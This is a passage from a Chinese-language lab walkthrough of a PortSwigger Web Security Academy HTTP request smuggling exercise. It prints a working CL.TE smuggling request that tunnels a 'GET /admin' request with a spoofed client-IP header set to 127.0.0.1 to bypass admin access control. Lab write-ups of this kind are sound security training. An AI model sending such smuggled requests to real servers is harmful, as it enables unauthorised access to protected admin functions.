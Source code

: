 第二次发送请求数据报文回显结果如下，可以看到响应中"Search results for"后跟了重写的HTTP请求的开头

[![](assets/1704418275-2386a0721e157dde1e1ab72bbde1f4c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155911-fa99fde8-aa0d-1.png)  
随后记下重写请求中X-\*-IP报头的名称并使用它来访问管理面板：

```plain
POST / HTTP/1.1
Host: 0ae000aa04f227c28184f2bb00e80084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-GoOvNz-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

第一个报文显示结果如下：

[![](assets/1704418275-22d48190011cf8bbd6511e689c4ecd47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155948-10ce564a-aa0e-1.png)
